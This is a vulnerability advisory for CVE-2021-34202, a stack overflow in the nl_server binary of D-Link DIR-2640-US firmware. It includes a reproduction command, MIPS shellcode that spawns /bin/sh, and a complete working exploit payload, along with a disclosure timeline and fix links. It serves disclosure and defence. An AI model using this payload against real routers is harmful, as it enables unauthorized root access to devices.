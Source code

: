 # Stack Overflow in DIR-2640-US Router

## Overview

- **CVE ID**: [CVE-2021-34202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34202)

- **Type**: [Out-of-bounds Write *- (787)*](http://cwe.mitre.org/data/definitions/787.html)

- **Vendor**: D-LINK (https://www.dlink.com/)

- **Products**: WiFi Router, such as DIR-2640-US.

- **Version**: Firmware (1.01B04)

- **Fix**: 

  https://support.dlink.com/productinfo.aspx?m=DIR-2640-US

  https://support.dlink.com/resource/SECURITY_ADVISEMENTS/DIR-2640/REVA/DIR-2640_REVA_FIRMWARE_v1.11B02_BETA01_HOTFIX.zip

## Severity

**High** 7.8 CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Description

Multiple out-of-bounds vulnerabilities in some processes of D-Link AC2600(DIR-2640). Ordinary permissions can be elevated to administrator permissions, resulting in local arbitrary code execution.  An attacker can combine other vulnerabilities to further achieve the purpose of remote code execution.

Ordinary users can run `nl_server`.

```shell
admin@dlinkrouter:~$ ls -l ./usr/bin/nl_server 
-rwxr-xr-x    1     18616 May 23  2021 ./usr/bin/nl_server
```

`nl_server` does not enable any safe compilation options.

```shell
gef➤  checksec
[+] checksec for '_DIR2640A1_FW101B04.bin.extracted/_A0.extracted/_856EA8.extracted/cpio-root/usr/bin/nl_server'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

The process does not limit the length of parameters entered by the user.

![main_function](./images/main_function.png)

The variable `dword_414140`  is used again in the `sub_401F40`.

![main](images/main.png)

The variables entered by the user are stored in the stack space. Therefore, there is a stack overflow vulnerability in this function.

![stack_over_flow](images/stack_over_flow.png)



[CVE-2021-34203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34203)  brought good news

> Is this parameter controllable externally?

## How to Reproduce (PoC)

Direct method

```shell
$ nl_server -i aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234
```

![poc1](images/poc1.png)

The return address of the process is directly modified by us to 1234 (ascii: 34333231)

## How to Exploit (exp)

`sp = 0x7fff6b70`, `sp + 0xa0 = 0x7fff6c10`

A suitable shellcode

```shell
char sc[] = {
    "\x24\x06\x06\x66" /* li a2,1638           */
    "\x04\xd0\xff\xff" /* bltzal a2,4100b4 <p> */
    "\x28\x06\xff\xff" /* slti a2,zero,-1      */
    "\x27\xbd\xff\xe0" /* addiu	sp,sp,-32      */
    "\x27\xe4\x10\x01" /* addiu	a0,ra,4097     */
    "\x24\x84\xf0\x1f" /* addiu	a0,a0,-4065    */
    "\xaf\xa4\xff\xe8" /* sw a0,-24(sp)        */
    "\xaf\xa0\xff\xec" /* sw zero,-20(sp)      */
    "\x27\xa5\xff\xe8" /* addiu	a1,sp,-24      */
    "\x24\x02\x0f\xab" /* li v0,4011           */
    "\x01\x01\x01\x0c" /* syscall 0x40404      */
    "/bin/sh"          /* sltiu	v0,k1,26990    */
                       /* sltiu	s3,k1,26624    */
}; //mipsel
```

Stack

```shell
┌────────────────┐ ◄────── sp
│                │
│                │
├────────────────┤ ◄────── sp + 0x18
│      v8        │
├────────────────┤
│                │
│                │
│                │
├────────────────┤ ◄────── sp + 0x4c
│      ra        │
xxxxxxxxxxxxxxxxxx ◄────── new_sp = sp + 0x50
│                │
├────────────────┤
│                │
│                │
│                │
├────────────────┤ ◄────── new_sp + 0x50
│   shellcode    │
├────────────────┤
│                │
│                │
└────────────────┘
```

Payload

```shell
python -c 'print "a" * 52 + "\x10\x6c\xff\x7f" + "b" * 0x50 + "\x66\x06\x06\x24"+  "\xff\xff\xd0\x04"+ "\xff\xff\x06\x28" + "\xe0\xff\xbd\x27"+ "\x01\x10\xe4\x27" +  "\x1f\xf0\x84\x24" + "\xe8\xff\xa4\xaf"+ "\xec\xff\xa0\xaf" + "\xe8\xff\xa5\x27"+  "\xab\x0f\x02\x24" +  "\x0c\x01\x01\x01"+ "/bin/sh" ' > payload
```

Our payload works correctly!

![exp3](images/exp3.png)

This binary can be run by ordinary users, so local code execution can elevate ordinary permissions to root permissions.

Of course, the parameter (payload) is actually the name of the bridge. If we can modify the bridge name from the outside, we can implement remote code execution!

## Disclosure Timeline

- 8-Feb-2021 Discoverd the vulnerability
- 9-Feb-2021 Responsibly disclosed vulnerability to vendor
- 10-Feb-2021 D-Link PSIRT would raise to R&D
- 31-Mar-2021 D-Link R&D was investigating the report
- 2-Jun-2021 Requested for CVE-ID assignment
- 10-Jun-2021 CVE-ID Assigned
- 13-Jun-2021 Notified CVE about a publication
- 22-Jun-2021 Fixed
